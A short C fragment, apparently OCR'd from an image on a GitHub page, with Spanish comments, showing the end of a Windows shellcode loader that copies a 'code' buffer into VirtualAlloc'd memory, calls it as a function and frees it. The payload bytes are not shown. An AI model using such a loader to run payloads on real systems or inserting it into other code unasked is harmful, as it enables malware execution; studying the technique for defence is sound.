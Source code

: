 ```c
    printf("ptr VirtualAlloc: 0x%p\n", exec);

    memcpy(exec, code, sizeof code); // copiar el shellcode a la nueva memoria reservada
	((void(*)())exec)(); // ejecuta el shellcode
    PrintLastErrorInfo();

    if(!VirtualFree(exec, 0, MEM_RELEASE)){// liberar memoria
        // si el valor es 0 == false, a ocurrio un error
        PrintLastErrorInfo();
        return EXIT_FAILURE;
    } 
    puts("Succes");
	return EXIT_SUCCESS;
}
```

---


